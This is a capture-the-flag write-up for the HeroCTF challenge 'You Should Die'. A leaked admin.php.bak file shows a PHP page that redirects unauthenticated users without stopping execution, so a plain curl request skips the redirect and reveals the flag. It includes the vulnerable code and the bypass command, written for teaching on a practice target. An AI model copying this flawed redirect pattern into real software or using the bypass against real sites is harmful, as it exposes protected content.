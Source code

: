 # You Should Die - HeroCTF.fr

### You will need

 - Web browser
 - Curl command

### Solution

We go to the address given to us - [http://chall1.heroctf.fr:9000/](http://chall1.heroctf.fr:9000/).
Here, if we open DevTools, we can find an interesting comment inside the `body` element.
```html
<body id="page-top">
  <!--
      For developper :
          Do not forget to remove admin.php.bak !
      
      Regards,
      Security Team
  -->
```
We have got the information that `admin.php.bak` is not removed, so we go there, and look at how an admin.php code looks like - [http://chall1.heroctf.fr:9000/admin.php.bak](http://chall1.heroctf.fr:9000/admin.php.bak)
```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```
Here we can see that flag can be accessed under the `/admin.php`. Code checks if we are logged in an if we are not it **redirects** us to /index.php. Redirect is key word here, because we can fetch this address with `curl`, which ignores `Location` header.

```
$ curl http://chall1.heroctf.fr:9000/admin.php
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

​​	Hero{**r3d1r3c710n_c4n_b3_d4n63r0u5_57395379**}

#### Credits

- Writeup by [mble](https://ctftime.org/user/93848)
- Solved by [mble](https://ctftime.org/user/93848)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + mble

